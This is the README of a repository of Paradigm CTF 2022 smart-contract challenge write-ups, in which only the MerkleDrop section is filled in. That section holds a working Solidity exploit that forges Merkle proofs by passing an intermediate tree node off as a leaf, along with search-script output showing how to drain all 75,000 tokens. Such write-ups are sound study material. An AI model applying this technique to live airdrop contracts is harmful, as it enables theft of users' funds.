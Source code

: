 # Paradigm CTF 2022

Some challenges are slightly modified to run locally. Using [forge](https://github.com/foundry-rs/foundry) to run scripts.

```bash
forge script script/Random.s.sol
```

**Table of Contents**
- [RANDOM](#random)
- [MERKLEDROP](#merkledrop)
- [RESCUE](#rescue)
- [SOURCECODE](#sourcecode)
- [VANITY](#vanity)
- [HINTFINANCE](#hintfinance)

## Random

simple task. The meme comes from https://youtu.be/LP1t_pzxKyE?t=251

## MerkleDrop

This task requires you to claim all tokens from a merkle airdrop contract without claiming all the valid indices.

```solidity
function claim(uint256 index, address account, uint96 amount, bytes32[] memory merkleProof) external {
    require(!isClaimed(index), 'MerkleDistributor: Drop already claimed.');
    
    // Verify the merkle proof.
    bytes32 node = keccak256(abi.encodePacked(index, account, amount));
    require(MerkleProof.verify(merkleProof, merkleRoot, node), 'MerkleDistributor: Invalid proof.');
    
    // Mark it claimed and send the token.
    _setClaimed(index);
    require(ERC20Like(token).transfer(account, amount), 'MerkleDistributor: Transfer failed.');
    
    emit Claimed(index, account, amount);
}
```

`claim` from `MerkleDistributor`. `amount` is using type `uint96`, the payload for `claim` happens to be
256+160+96=512. This fits two leafs for the merkle proof. We can use the first two from any intermediate state when constructing the merkle proof.

Example of claiming index 0 with intermediate state.

```solidity
function tryIndex0() public {
    bytes32[] memory proofs = new bytes32[](6);
    proofs[0] = 0xa37b8b0377c63d3582581c28a09c10284a03a6c4185dfa5c29e20dbce1a1427a;
    proofs[1] = 0x0ae01ec0f7a50774e0c1ad35f0f5efcc14c376f675704a6212b483bfbf742a69;
    proofs[2] = 0x3f267b524a6acda73b1d3e54777f40b188c66a14a090cd142a7ec48b13422298;
    proofs[3] = 0xe2eae0dabf8d82b313729f55298625b7ac9ba0f12e408529bae4a2ce405e7d5f;
    proofs[4] = 0x01cf774c22de70195c31bde82dc3ec94807e4e4e01a42aca6d5adccafe09510e;
    proofs[5] = 0x5271d2d8f9a3cc8d6fd02bfb11720e1c518a3bb08e7110d6bf7558764a8da1c5;
    dist.claim(0, 0x00E21E550021Af51258060A0E18148e36607C9df, 0x09906894166afcc878, proofs);

    // claim(uint256 index, address account, uint96 amount, bytes32[] proofs)
    bytes32 node = keccak256(abi.encodePacked(uint256(0), address(0x00E21E550021Af51258060A0E18148e36607C9df), uint96(0x09906894166afcc878)));
    emit log_named_bytes32("node", node);
    // node      = 0xa9e8f0fbf0d2911d746500a7786606d3fc80abb68a05f77fb730ded04a951c2d
    // proofs[0] = 0xa37b8b0377c63d3582581c28a09c10284a03a6c4185dfa5c29e20dbce1a1427a
    bytes32[] memory fakeProofs = new bytes32[](5);
    fakeProofs[0] = proofs[1];
    fakeProofs[1] = proofs[2];
    fakeProofs[2] = proofs[3];
    fakeProofs[3] = proofs[4];
    fakeProofs[4] = proofs[5];
    dist.claim(0xa37b8b0377c63d3582581c28a09c10284a03a6c4185dfa5c29e20dbce1a1427a, 0xa9e8F0FBF0d2911d746500A7786606d3fC80abb6, uint96(0x8a05f77fb730ded04a951c2d), fakeProofs);
}
```

We created a simple [script](src/MerkleDrop/findVictim.js) to test every index of the tree. Only two indices is within the valid range.

```
total: 75000
index:19, fakeAmount: 0x00000f40f0c122ae08d2207b=72033.43704913257, fakeAddr: 0xd48451c19959e2D9bD4E620fBE88aA5F6F7eA72A, fakeIndex: 0xd43194becc149ad7bf6db88a0ae8a6622e369b3367ba2cc97ba1ea28c407c442
index:37, fakeAmount: 0x00000f40f0c122ae08d2207b=72033.43704913257, fakeAddr: 0xd48451c19959e2D9bD4E620fBE88aA5F6F7eA72A, fakeIndex: 0xd43194becc149ad7bf6db88a0ae8a6622e369b3367ba2cc97ba1ea28c407c442
....
index: 8, amount: 2966
....
```

Using index 8 and fake 19/37 will empty the 75000 tokens.



## Rescue

## SourceCode

## Vanity

## HintFinance


  
  
  
